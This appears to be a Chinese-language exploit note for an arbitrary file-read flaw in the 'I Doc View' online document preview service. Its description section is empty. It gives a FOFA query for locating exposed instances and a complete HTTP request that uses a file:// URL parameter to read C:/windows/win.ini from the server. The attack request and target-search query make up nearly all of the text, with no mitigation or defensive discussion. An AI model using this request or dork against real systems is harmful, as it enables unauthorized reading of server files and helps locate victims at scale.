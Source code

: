 # DocView在线文档预览任意文件读取

## 1.漏洞描述



## 2.搜索语法

```plain
fofa：title=="在线文档预览 - I Doc View"
```

## 3.漏洞复现

```plain
GET /view/qJvqhFt.json?start=1&size=5&url=file%3A%2F%2F%2FC%3A%2Fwindows%2Fwin.ini&idocv_auth=sapi HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

![image-20240618192923225](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240618192923225.png)